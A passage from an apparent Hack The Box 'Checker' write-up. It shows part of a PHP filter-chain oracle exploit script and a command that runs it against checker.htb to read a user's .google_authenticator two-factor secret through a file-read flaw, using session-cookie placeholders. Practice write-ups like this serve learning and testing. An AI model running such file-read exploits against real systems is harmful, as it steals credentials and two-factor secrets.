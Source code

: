 ```bash
        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text 

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500

```

From the 2 info which we got from above enumeration that backup path and that default google auth file we can check that file through this exploit.
Command to get the google_authenticator secret !

```bash
python filters_chain_oracle_exploit.py \
  --target "http://checker.htb/ajax/page/12/save-draft" \
  --file "/backup/home_backup/home/reader/.google_authenticator" \
  --parameter "html" \
  --verb PUT \
  --headers "{\"X-CSRF-TOKEN\": \"$CSRF-TOKEN\", \"Content-Type\": \"application/x-www-form-urlencoded\", \"Cookie\": \"jstree_select=1; XSRF-TOKEN=$XSRF-TOKEN; bookstack_session=$BookStack_Session; teampass_session=$TeamPass_Session\"}"
```

![Screenshot 2025-02-25 at 12.48.57 AM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-25_at_12.48.57_AM.png)
